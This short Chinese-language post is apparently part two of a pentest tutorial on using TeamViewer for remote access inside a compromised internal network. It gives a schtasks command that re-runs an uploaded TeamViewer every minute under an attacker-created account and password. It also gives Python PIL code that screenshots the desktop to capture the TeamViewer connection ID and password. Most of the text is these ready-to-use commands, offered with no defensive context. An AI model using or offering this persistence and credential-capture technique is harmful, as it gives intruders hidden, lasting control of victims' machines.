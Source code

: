 ```yaml
---
title: "Teamviewer内网穿透（二）"
id: zhfly3456
---
```


# Teamviewer内网穿透（二）

上传一个单文件版本的teamviewer

再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV的路径  /ru 创建的用户名 /rp 创建的密码 
```

使用PIL截图获取连接ID密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png') 
```
